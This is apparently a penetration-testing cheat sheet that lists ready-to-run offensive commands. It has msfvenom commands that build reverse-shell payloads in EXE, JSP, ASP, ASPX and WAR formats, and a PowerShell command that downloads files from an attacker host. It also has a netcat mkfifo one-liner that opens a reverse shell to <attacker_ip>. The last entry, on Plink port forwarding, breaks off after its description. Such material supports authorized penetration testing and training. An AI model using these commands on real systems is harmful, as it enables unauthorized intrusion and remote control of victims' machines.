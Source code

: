Generate reverse shells for various platforms using `msfvenom`.

### Windows EXE
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > shell.exe
```

### JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f raw > shell.jsp
```

### ASP
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f asp > shell.asp
```

### ASPX
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f aspx > shell.aspx
```

### WAR
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f war > shell.war
```

---

## File Transfer

### PowerShell Download
Download files to the target:
```bash
powershell -command "& { iwr http://<attacker_ip>/file.txt -OutFile file.txt }"
```

---

## Reverse Shell with Netcat
Establish a reverse shell using Netcat:
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker_ip> <port> > /tmp/f
```

---

## Plink for Port Forwarding
**Description**: Plink is a command-line tool similar to SSH, used for automated remote connections.

**Use Case**: Expose a remote port (e.g., Samba port 445) on the attacker’s machine.
